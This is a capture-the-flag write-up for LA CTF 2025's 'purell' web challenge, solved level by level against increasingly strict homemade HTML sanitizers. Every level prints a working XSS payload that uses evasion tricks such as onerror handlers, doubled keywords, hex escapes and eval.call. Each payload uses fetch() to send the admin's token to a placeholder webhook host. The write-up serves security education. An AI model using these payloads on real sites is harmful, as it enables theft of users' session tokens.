

web/purell - LA CTF 2025
Category: Web
Description: Here in purellland, we sanitize your inputs. We kill 99% of germs, can you be the 1% germ that slips through?
This multi-level CTF challenge uses Node.js and Express. Each level has a custom HTML sanitizer to block XSS, and the goal is to bypass these filters to retrieve tokens from the admin. Then, you use these tokens to get flag parts.
Understanding the Code
The challenge provides a Node.js application using Express. Below are the key components of the challenge:
- Cookie-based Admin Authentication
- Users can attempt to inject HTML/JS into the
htmlGET parameter. - Admin bot visits the provided URL.
- Users can attempt to inject HTML/JS into the
The challenge employs a series of progressively stricter sanitization measures on the html parameter:
-
Level Zero: No sanitization is applied.
-
Level One: Input is blocked if it contains the substring
script. -
Level Two: Input is blocked if it contains either
scriptoron. -
Level Three: The input is converted to lowercase, and all occurrences of
scriptandonare removed. -
Level Four: In addition to Level Three modifications, all
>characters are removed. -
Level Five: All whitespace characters are removed, along with the previous filters.
-
Level Six: Builds upon all previous modifications and further removes parentheses
()and square brackets[]. -
Flag Submission Flow
- Users receive test tokens (
purell-token{xss_guru_<level>}) if they are not the admin bot. - The real flag parts are only provided to the admin bot.
- The flag is reconstructed from different levels.
- Users receive test tokens (
Exploitation
Level 0 - A Friendly Warmup
As the title implies, this introductory level is designed to help you craft a payload that will later be modified in subsequent levels. The objective here is to steal the token, which can be achieved using tools such as Burp Suite Collaborator or a Webhook Site.
In my approach, I utilized the JavaScript fetch function to send a GET request with the token appended to the URL. Since the token is embedded within a <span> element with the class name flag, I used querySelector to extract only the required token.
Payload:
<script>
fetch('https://your-colab-or-webhook/?flag='+document['querySelector']('.flag')['innerHTML'])
</script>
After pasting the payload and clicking the Render button, the page reloaded, and the URL was automatically generated—ready to be copied and submitted to the admin bot.
After submitting the URL to the admin bot, we will receive a request in my collaborator that looked similar to the following: To solve Level 0, we can simply took the stolen admin token from my collaborator, paste it into the appropriate input field, and submit it. This grants access to website with part of flag. 
Level 1 - no scripts allowed fr fr
In this level, the string script is blocked, preventing the use of standard <script> tags. To bypass this restriction, We can modify the payload to use an <img> tag with an onerror event, which executes JavaScript when the image fails to load.
Payload:
<img src=x onerror="fetch('https://your-colab-or-webhook/?flag='+document['querySelector']('.flag')['innerHTML'])">
Flag part: b3s7_x40ss_
Level 2 - NO MORE XSS PLEASE
In this level, both the strings script and on are blocked, preventing the use of the previous solution. However, when examining the sanitization logic, we notice that it only checks for the lowercase on. This means we can bypass the restriction by using an uppercase variation of onerror, such as ONERROR.
Payload:
<img src=x ONERROR="fetch('https://your-colab-or-webhook/?flag='+document['querySelector']('.flag')['innerHTML'])">
Flag part: h4nd_g34m_
Level 3 - ok now yall are cooked, no more scripts or on
In this level, the website processes our input by first converting it to lowercase and then removing (not blocking) occurrences of the strings on and script. This means we can't rely on simple case manipulation. However, the sanitization is not applied recursively, meaning it only removes single occurrences of on and script per pass without continuously rechecking the modified string.
Additional Challenge
A major issue arises with our JavaScript code: querySelector gets converted to queryselector, breaking our ability to extract the flag. To bypass this, we need a way to preserve uppercase letters.
Bypass Strategy
To maintain uppercase letters, we can use JavaScript template literals (``) instead of single (') or double (") quotes. This allows us to encode function name and restore uppercase characters.
Payload:
<img src=x oonnerror="token=document[`\x71\x75\x65\x72\x79\x53\x65\x6c\x65\x63\x74\x6f\x72`]('.flag')['\x69\x6e\x6e\x65\x72\x48\x54\x4d\x4c'];fetch('https://your-colab-or-webhook/?flag='+token)">
Flag part: 4cr0ss_411_t1m3
Level 4 - screw it no more html for yall
In this level, the website applies the same sanitization as before, but now it also removes the > character from our input. This means we can no longer properly close tags in the traditional way.
Bypass Strategy
Luckily, this is not a problem for us. Since browsers can automatically infer missing closing tags, we can simply omit the last > and append a new <img> tag at the end to fix any potential rendering issues.
Payload:
<img src=x oonnerror="token=document[`\x71\x75\x65\x72\x79\x53\x65\x6c\x65\x63\x74\x6f\x72`]('.flag')['\x69\x6e\x6e\x65\x72\x48\x54\x4d\x4c'];fetch('https://your-colab-or-webhook/?flag='+token)"<img>
Flag part: _4nd_z_
Level 5 - no whitespace, no nothing
In this level, the website now removes all whitespace characters in addition to the previous sanitization rules. This means we can’t rely on spaces to separate attributes or JavaScript code, making it more challenging to construct a valid payload.
Bypass Strategy
Even though whitespace is removed, we can replace spaces with various separators such as /, ;.
Moreover, I added " around x so payload is properly rendered.
Payload:
<img/src="x"/oonnerror="token=document[`\x71\x75\x65\x72\x79\x53\x65\x6c\x65\x63\x74\x6f\x72`]('.flag')['\x69\x6e\x6e\x65\x72\x48\x54\x4d\x4c'];fetch('https://your-colab-or-webhook/?flag='+token)"<img>
Flag part: un1v3rs3
Level 6 - no parenthesis :megamind:
In this level, the website removes all parentheses () and [] in addition to the previous restrictions (removal of on, script, >, and whitespace). This prevents us from calling functions in the usual way, making it difficult to execute JavaScript.
Bypass Strategy
Since parentheses are required for function calls, we need an alternative way to execute JavaScript. One approach is to use eval.call.
This allowes us to either encode payload and do not use parenthesis.
Payload:
<img/src="x"/oonnerror="eval.call`${'\x74\x6f\x6b\x65\x6e\x3d\x64\x6f\x63\x75\x6d\x65\x6e\x74\x5b\x60\x71\x75\x65\x72\x79\x53\x65\x6c\x65\x63\x74\x6f\x72\x60\x5d\x28\x27\x2e\x66\x6c\x61\x67\x27\x29\x5b\x27\x69\x6e\x6e\x65\x72\x48\x54\x4d\x4c\x27\x5d\x3b\x66\x65\x74\x63\x68\x28\x27\x68\x74\x74\x70\x73\x3a\x2f\x2f\x79\x6f\x75\x72\x2d\x63\x6f\x6c\x61\x62\x2d\x6f\x72\x2d\x77\x65\x62\x68\x6f\x6f\x6b\x2f\x3f\x66\x6c\x61\x67\x3d\x27\x2b\x74\x6f\x6b\x65\x6e\x29'}`"<img>
Encoded string is equal to:
token=document[`querySelector`]('.flag')['innerHTML'];fetch('https://your-colab-or-webhook/?flag='+token)
Flag part: _1nf3c71ng_3v34y_1}
Now that we have successfully exploited all levels, we can combine parts to reconstruct the complete flag:
lactf{1_4m_z3_b3s7_x40ss_h4nd_g34m_4cr0ss_411_t1m3_4nd_z_un1v3rs3_1nf3c71ng_3v34y_1}
You can also try payloads yourself!
Download source code: Download Then unzip and in the folder run:
npm install .node app_distribution.js- Now website available under:
http://localhost:3000/
If you enjoyed this write-up and found it useful, feel free to add me on LinkedIn for more CTF challenges, security research, and infosec content!
Also, be sure to check out Securani Linkedin for more cybersecurity insights, challenges, and learning resources. 🚀🔒
Stay curious and keep hacking! 😈🔥
M0U